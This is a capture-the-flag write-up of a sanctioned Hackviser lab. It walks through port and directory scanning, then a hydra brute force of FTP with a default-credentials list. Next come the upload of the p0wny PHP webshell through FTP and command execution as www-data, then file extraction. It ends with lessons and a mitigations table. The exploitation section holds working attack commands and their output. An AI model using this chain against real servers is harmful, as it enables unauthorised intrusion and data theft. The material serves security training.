

# FTP Default Credentials — PoC Write-up
### Target: `createdge.hv` | Platform: [Hackviser](https://hackviser.com) | Difficulty: Medium

> **Disclaimer:** Produced during the **Cryptnic Area Internship Program** on a sanctioned Hackviser lab **"Rivalry"**. For **educational purposes only**

---

## Table of Contents

1. [Overview](#overview)
2. [Reconnaissance](#reconnaissance)
3. [Enumeration](#enumeration)
4. [Vulnerability Analysis](#vulnerability-analysis)
5. [Exploitation](#exploitation)
6. [Post-Exploitation & Flag Recovery](#post-exploitation--flag-recovery)
7. [Questions & Answers](#questions--answers)
8. [Attack Vectors & What I Learned](#attack-vectors--what-i-learned)
9. [Mitigations](#mitigations)
10. [Tools Used](#tools-used)

---

## Overview

PoC write-up for the **CreateEdge** Web Lab on Hackviser. The attack chain is:
**Directory enumeration → FTP default credentials → PHP webshell upload → RCE → flag recovery**

**Lab Objectives:**
1. How many new clients does CEO Emily Johnson claim Orbitronix Systems gained?
2. What is the advertising budget of Orbitronix Systems?
3. Who is the target audience of their campaign?
4. What is the name of Create Edge's secret marketing tool?


---

## Reconnaissance

> Full scan output: [`nmap_scans.txt`](./nmap_scans.txt)

```bash
nmap -sCV createdge.hv
```

| Port | Service | Version |
|------|---------|---------|
| 21/tcp | ftp | vsftpd 3.0.3 |
| 80/tcp | http | Apache httpd 2.4.56 (Debian) |

Both services have known CVEs — vsftpd 3.0.3 and Apache 2.4.56 are worth investigating further.

---

## Enumeration

### Web Application (Port 80)

`http://createdge.hv/` is a static marketing site with no forms, file uploads, or redirections. 
Notable observations:
- **Q1 answer** is visible in an animated counter on the homepage — always read the full page.
- `http://createdge.hv/index.html#[object Object]` — odd JS serialization in the URL fragment; XSS testing with **xsstrike** returned nothing.

### Directory Enumeration — Gobuster

```bash
gobuster dir -u "http://createdge.hv/" -w /usr/share/wordlists/Seclists/Discovery/Web-Content/common.txt
```

| Path | Status | Note |
|------|--------|------|
| `/ftp/` | 301 | **Directory listing enabled — critical** |
| `/vendor/` | 301 | Directory listing enabled |
| `/.htaccess` | 403 | |
| `/server-status` | 403 | |

The `/ftp/` directory is served over HTTP — any file uploaded via FTP is immediately browser-accessible.


### FTP Vulnerability Scan

```bash
nmap -sCV -p 21 --script vuln createdge.hv
```

Flagged **CVE-2021-30047** (CVSS 7.5) and **CVE-2021-3618** (CVSS 7.4). 
A public DoS exploit (`vsftpd-3.0.3-DoS`) exists but only crashes the service — no shell returned.

---

## Vulnerability Analysis

### FTP — Default Credentials (CWE-521)

vsftpd 3.0.3 isn't directly exploitable for RCE here, but it was running with **default credentials**. Combined with the HTTP-exposed FTP root, the impact escalates to critical.

### Apache 2.4.56 — High-Severity CVEs

| CVE | CVSS | Description |
|-----|------|-------------|
| CVE-2024-38476 | 9.8 | Output handling flaw — potential RCE |
| CVE-2024-38474 | 9.8 | Substitution encoding bypass |
| CVE-2024-38475 | 9.1 | mod_rewrite bypass → source disclosure |
| CVE-2024-40898 | 9.1 | SSRF via mod_rewrite |

These were not needed for this lab but represent real attack surface in a live engagement.

### Negative Results

| Vector | Result |
|--------|--------|
| SQL Injection (nmap + sqlmap) | False positives — Apache directory listing sort params (`?C=N&O=D`)  [18:48:43] [WARNING] GET parameter 'C' does not seem to be injectable |
| CSRF / XSS / File Upload | No vulnerable endpoints found |

---

## Exploitation

### Step 1 — FTP Brute Force (Hydra)

Rockyou.txt was too slow. A **default credentials list** solved it in seconds:

```bash
hydra -C /usr/share/wordlists/Seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt \
      172.20.5.55 ftp
```

```
[21][ftp] host: 172.20.5.55   login: ftpuser   password: password
```

> Always try default credential lists with the C flag which stands for combination before large wordlists — they're fast and frequently effective.

### Step 2 — PHP Webshell Upload

```bash
ftp 172.20.5.55
# Login: ftpuser / password
put shell.php
```

Used **p0wny-shell** — a browser-based interactive PHP shell available on GitHub.

### Step 3 — Remote Code Execution

```
http://createdge.hv/ftp/shell.php
```

Shell spawned with `www-data` privileges. Filesystem exploration now possible.

---

## Post-Exploitation & Flag Recovery

Manual enumeration via the webshell revealed an `/archive` directory.

The file `detailed_client_info.csv` contained the answer to Q3  (target audience).
The file `orbitronix_system-2023-11-20.txt` which contains the answer to Q4.


I had one problem on how to download those file in my computer , but hopefully python3 existed in the target machine , and then I downloaded them using this command :
```
python3 -m http.server 8888
``` 

---

## Attack Vectors & What I Learned

### Why "Medium" ?

The machine isn't hard step-by-step — it's hard because of **noise**. The Apache vuln scan floods you with CVSS 9.8 findings that are red herrings. The nmap SQLi results are false positives. The `#[object Object]` fragment looks like a lead but goes nowhere. The real path is simple, but you have to resist the distractions to find it.

> The core skill tested here is **triage** — knowing what to ignore as much as knowing what to pursue.

### Key Takeaways

- **Enumerate directories before chasing CVEs.** `/ftp/` was the entire attack surface — found in seconds with gobuster.
- **Default creds first, rockyou last.** Small targeted lists beat brute force every time.
- **Read the page.** Q1 required no exploit at all — just scrolling.
- **Validate scanner output manually.** Automated SQLi results here were 100% false positives.

### Uninvestigated Attack Surface (Real-World Relevance)

Had the FTP creds been secure, the next logical steps would be:
- **CVE-2024-38476 / CVE-2024-38474** (CVSS 9.8) — test public PoCs for RCE via Apache output handling.
- **CVE-2024-38475** — mod_rewrite bypass for source file disclosure.
- **`#[object Object]` JS bug** — deeper investigation for prototype pollution or client-side deserialization.

---

## Mitigations

| Finding | Fix |
|---------|-----|
| Default FTP credentials | Use strong unique credentials; consider SFTP with key auth |
| FTP root exposed over HTTP | Move FTP directory outside web root; restrict `/ftp/` access |
| Apache 2.4.56 (outdated) | Upgrade to Apache 2.4.62+ |
| Directory listing enabled | Set `Options -Indexes` in Apache config |
| PHP execution in upload dir | Disable PHP execution via `.htaccess` or Apache config |

---

## Tools Used

| Tool | Purpose |
|------|---------|
| `nmap` | Port scanning, service detection, vuln scripts |
| `gobuster` | Web directory enumeration |
| `hydra` | FTP credential brute force |
| `xsstrike` | XSS testing (negative) |
| `sqlmap` | SQLi testing (negative) |
| `p0wny-shell` | PHP webshell |
| `python3` | Post-exploitation (available on target) |

---

## References

- [CVE-2021-30047](https://vulners.com/cve/CVE-2021-30047) — vsftpd 3.0.3
- [CVE-2024-38476](https://vulners.com/cve/CVE-2024-38476) — Apache 2.4.56
- [CVE-2024-38474](https://vulners.com/cve/CVE-2024-38474) — Apache 2.4.56
- [p0wny-shell](https://github.com/flozz/p0wny-shell)
- [SecLists](https://github.com/danielmiessler/SecLists)
- [Hackviser](https://hackviser.com)

---

*Write-up by **hamzabk** | Cryptnic Area Internship Program | February 2026*
